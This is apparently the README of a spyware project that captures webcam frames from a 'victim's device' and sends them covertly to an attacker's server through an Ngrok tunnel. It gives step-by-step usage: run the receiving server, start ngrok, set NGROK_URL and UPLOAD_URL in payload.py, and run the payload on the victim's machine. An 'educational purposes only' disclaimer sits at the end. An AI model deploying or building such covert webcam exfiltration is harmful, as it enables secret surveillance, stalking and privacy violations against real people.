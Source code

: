 # Webcam Capture & Exfiltration

## 📌 Project Overview
This project captures webcam frames from a target device and transmits them to a remote attacker-controlled server via Ngrok tunneling. The frames are processed and displayed on the attacker's machine in real time.

## 🚀 Features
- 📸 **Captures webcam frames** from the victim's device
- 📤 **Sends frames** to a remote server using HTTP POST requests
- 🌐 **Uses Ngrok** for secure tunneling
- 🎥 **Displays frames on the attacker's machine**
- 🛠 **Lightweight and efficient** frame transmission

## 📂 Project Structure
```
📁 webcam-capture-project
│-- 📜 payload.py (Runs on victim's device, captures webcam)
│-- 📜 server.py (Runs on attacker's machine, receives frames)
│-- 📜 README.md (Project documentation)
```

## 🛠 Setup & Usage
### 1️⃣ **Start the server on the attacker's machine**
```bash
python server.py
```

### 2️⃣ **Start Ngrok for tunneling**
```bash
ngrok http 8080
```
🔹 Copy the **HTTPS URL** from Ngrok (e.g., `https://random-id.ngrok.io`).

### 3️⃣ **Update the payload with the Ngrok URL**
Edit `payload.py` and replace:
```python
NGROK_URL = "https://your-ngrok-url.ngrok.io"
UPLOAD_URL = NGROK_URL + "/upload"
```

### 4️⃣ **Run the payload on the victim's device**
```bash
python payload.py
```

### 5️⃣ **Check the server for incoming frames**
You should see:
```
✅ Frame received! Size: XXXX bytes
```

## ⚠️ Disclaimer
This project is intended **for educational and ethical purposes only**. Unauthorized use against individuals or systems without permission is **illegal** and may result in severe consequences.

## 📌 Author
Developed as part of a cybersecurity learning project.

